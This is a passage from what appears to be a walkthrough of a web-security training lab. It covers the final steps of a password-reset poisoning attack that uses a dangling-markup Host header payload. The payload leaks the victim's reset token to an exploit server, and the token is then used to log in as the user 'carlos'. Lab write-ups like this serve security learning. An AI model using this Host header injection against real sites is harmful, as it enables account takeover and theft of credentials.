 #### 9. **Repeat for Carlos**

* Go back to the **forgot password** form and submit a reset request for **carlos**.
* Use the same Host header injection payload:

  ```bash
     Host: YOUR-LAB-ID.web-security-academy.net:'<a href="//YOUR-EXPLOIT-SERVER-ID.exploit-server.net/?

  ```
* Intercept and forward the request.

  <img width="1238" height="499" alt="image" src="https://github.com/user-attachments/assets/cdc73664-6917-4713-acb5-251261d482d6" />


#### 10. **Extract Carlos's Token**

* Check your **exploit server access logs**.

<img width="1904" height="147" alt="image" src="https://github.com/user-attachments/assets/1e374edd-7d1e-47e6-910d-121d9f274700" />

* You should now see the reset link or password for **carlos**.

#### 11. **Log in as Carlos**

* Use the password from the intercepted link to **log in as carlos**.
* Lab is **successfully solved**.

<img width="1573" height="741" alt="image" src="https://github.com/user-attachments/assets/e7051356-c8c7-4cc1-be3d-4550d7b776fc" />

	

---
